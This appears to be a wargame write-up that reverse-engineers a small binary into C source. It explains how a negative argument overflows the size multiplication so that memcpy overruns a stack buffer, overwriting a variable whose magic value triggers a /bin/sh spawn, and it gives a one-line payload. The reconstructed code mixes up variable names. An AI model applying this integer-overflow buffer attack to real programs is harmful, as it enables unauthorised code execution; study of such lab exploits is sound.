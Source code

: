 ```
 80484ae:       90                      nop
 80484af:       90                      nop
```
```clike=
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

int main(int argc, char **argv)
{
    int atoi_ret;
    char buf[40]; // we allocated 64 bytes at 804842a, - atoi_res size (4) - esp offset (20)
    
    // 8048438
    atoi_ret = atoi(argv[1]);
    if (atoi_ret <= 9)
    {
        int len;
        
        // 8048453
        len = atoi_res * 4;
        
        // 8048473
        memcpy(buf, argv[2], len);
        
        if (atoi_ret != 1464814662) // or 0x574f4c46
            return 1;
        else
            execl("/bin/sh", "sh");
    }
    else
        return 1;
}
```

Based on instructions `804843d` and `8048464`, we are able to determine the sizes and position of the `atoi_ret` and the `buf` variables. They are positioned next to each other at `esp + 0x3c` for `atoi_res` and `esp + 0x14` for `buf`. Which means `buf` needs at least 41 bytes to overwrite`atoi_ret`. This is not possible through normal input because we are capped at 9 for the atoi, which makes our max input length `9 * 4 = 36` bytes long when we put the largest possible number.

However, there is not restrictions on the minimum value, which may cause overflow when I multiply the minimum value by 4. As we can see, the length of memcpy is stored in `ecx` when the user inputs `-2000000000 asd`. The system tries to multiply -2000000000 by 4 which resulted in a large positive number, as the real result needs more than 8 bytes to store.

And since we can copy a big length now, we can try to overwrite `atoi_ret` with a `argv[2]` of 41 bytes.
```
-2000000000 `python -c "print 'B' * 41"`
```
![image](https://hackmd.io/_uploads/r1bRMiM8T.png)
